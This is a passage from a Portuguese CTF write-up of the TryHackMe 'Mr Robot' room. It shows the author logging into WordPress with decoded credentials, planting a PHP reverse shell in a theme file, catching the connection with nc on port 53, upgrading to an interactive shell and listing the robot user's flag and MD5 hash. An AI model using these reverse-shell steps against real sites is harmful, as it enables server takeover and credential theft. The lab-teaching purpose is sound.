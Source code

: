 ![](string.webp)

Decidi testá-la diretamente como senha, mas novamente, sem sucesso. No entanto, ao decodificar a string acabei encontrando um par de credenciais: usuário e senha válidos para acesso ao WordPress.
![](cyberchef.webp)

Após obter acesso ao painel administrativo do WordPress (versão vulnerável 4.3.1), foi possível explorar a funcionalidade de edição de temas para executar código malicioso diretamente no servidor.

Configurei um listener local na porta `53` utilizando `nc`.:

```console
nc -lvnp 53
```
Essa porta foi escolhida por normalmente estar liberada em firewalls e facilitar a conexão reversa. 

Para o payload, foi utilizado o script `php-reverse-shell` disponibilizado no repositório [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Alterei o script com o IP local e a porta 53 usada no listener. Subistitui o conteúdo do archive.php localizado em `Appearance > Editor` este faz parte do tema ativo `twentyfifteen`. 

![](tema-wordpress.webp)

Para ativar o shell, acessei: `http://10.10.150.40/wp-content/themes/twentyfifteen/archive.php`. Esse acesso resultou na execução do shell e na obtenção de uma conexão remota interativa como o usuário `daemon`.

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.6.47.63] from (UNKNOWN) [10.10.150.40] 38431
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 19:28:55 up  2:48,  0 users,  load average: 9.29, 9.07, 8.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Transforma `shell reversa simples` (não interativa) em uma `shell interativa` com `python -c 'import pty; pty.spawn("/bin/bash")'`.

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$
```

Ao acessar o diretório `/home`, identifiquei o usuário atual do sistema. Em seguida, no diretório `/home/robot`, encontrei dois arquivos: nossa segunda flag e um hash em MD5. No entanto, apenas o usuário robot possui permissões de leitura sobre o arquivo da flag.

```console
daemon@linux:/$ ls -larth /home
ls -larth /home
total 12K
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
drwxr-xr-x  3 root root 4.0K Nov 13  2015 .
drwxr-xr-x  2 root root 4.0K Nov 13  2015 robot
daemon@linux:/$ ls -larth /home/robot/
ls -larth /home/robot/
total 16K
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/$ cat /home/robot/password.raw-md5
cat /home/robot/password.raw-md5
```